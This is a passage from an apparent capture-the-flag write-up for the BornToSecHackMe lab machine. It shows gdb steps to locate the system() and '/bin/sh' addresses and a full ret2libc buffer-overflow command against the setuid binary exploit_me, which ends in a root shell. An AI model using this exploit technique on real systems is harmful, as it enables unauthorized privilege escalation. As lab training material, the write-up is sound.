 ```bash
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
```

We create the **breakpoint** and run the program:
```bash
(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4
```
```bash
(gdb) r $(python -c 'print "exploit you")
Starting program: /home/zaz/exploit_me $(python -c 'print "exploit you"')

Breakpoint 1, 0x080483f4 in main ()
```

Then, we can find what we're looking for:
```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
```

Our payload has to be as following:
```text
[buffer][system address][random return address]["/bin/sh" address]
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "\x12\x34\x56\x78" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��4VxX��
```
```bash
$ whoami
root
```